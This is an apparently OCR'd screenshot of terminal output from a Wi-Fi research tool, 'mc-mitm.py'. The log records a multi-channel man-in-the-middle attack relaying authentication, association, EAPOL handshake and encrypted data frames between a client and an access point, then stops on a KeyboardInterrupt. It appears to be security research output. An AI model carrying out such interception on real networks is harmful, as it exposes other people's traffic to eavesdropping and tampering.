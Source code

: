 	[01:39:19] Rogue channel: 02:00:00:00:01:00 -> 02:00:00:00:00:00: Auth(seq=1830, status=0) -- MitM'ing
		       Established MitM position against client 02:00:00:00:01:00
	[01:39:19] Rogue channel: 02:00:00:00:01:00 -> 02:00:00:00:00:00: AssoReq(seq=1831) -- MitM'ing
	[01:39:19] Real channel : 02:00:00:00:00:00 -> 02:00:00:00:01:00: EAPOL-Msg1(seq=0, replay=1) -- MitM'ing
	[01:39:19] Rogue channel: 02:00:00:00:01:00 -> 02:00:00:00:00:00: EAPOL-Msg2(seq=0, replay=1) -- MitM'ing
	[01:39:19] Real channel : 02:00:00:00:00:00 -> 02:00:00:00:01:00: EAPOL-Msg3(seq=1, replay=2) -- MitM'ing
	[01:39:19] Rogue channel: 02:00:00:00:01:00 -> 02:00:00:00:00:00: EAPOL-Msg4(seq=1, replay=2) -- MitM'ing
	[01:39:19] Rogue channel: 02:00:00:00:01:00 -> 02:00:00:00:00:00: EncData(PN=1, len=126) -- MitM'ing
	[01:39:20] Rogue channel: 02:00:00:00:01:00 -> 02:00:00:00:00:00: EncData(PN=2, len=122) -- MitM'ing
	[01:39:20] Rogue channel: 02:00:00:00:01:00 -> 02:00:00:00:00:00: EncData(PN=3, len=126) -- MitM'ing
	[01:39:21] Rogue channel: 02:00:00:00:01:00 -> 02:00:00:00:00:00: EncData(PN=4, len=126) -- MitM'ing
	[01:39:21] Rogue channel: 02:00:00:00:01:00 -> 02:00:00:00:00:00: EncData(PN=5, len=106) -- MitM'ing
	[01:39:21] Rogue channel: 02:00:00:00:01:00 -> 02:00:00:00:00:00: EncData(PN=6, len=126) -- MitM'ing
	[01:39:24] Rogue channel: 02:00:00:00:01:00 -> 02:00:00:00:00:00: EncData(PN=7, len=106) -- MitM'ing
	^CTraceback (most recent call last):
	  File "/home/mathy/research/wifi/mc-mitm/./mc-mitm.py", line 834, in <module>
		attack.run()
	  File "/home/mathy/research/wifi/mc-mitm/./mc-mitm.py", line 783, in run
		sel = select.select([self.sock_rogue, self.sock_real], [], [], 0.1)
	KeyboardInterrupt
	[23:10:03] Cleaning up ...

	(venv) [root@zbook-mathy mc-mitm]#

